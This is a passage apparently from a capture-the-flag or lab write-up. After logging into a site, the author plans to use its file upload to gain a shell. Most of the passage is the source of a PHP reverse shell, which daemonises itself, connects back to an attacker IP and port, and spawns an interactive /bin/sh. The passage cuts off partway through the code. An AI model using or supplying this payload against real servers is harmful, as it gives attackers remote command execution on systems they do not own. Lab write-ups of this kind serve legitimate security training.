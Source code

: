 We can log in to the site with these, once we are in we see that the there is a file upload to support.

We will try and get a sheell with this payload

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.11';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
```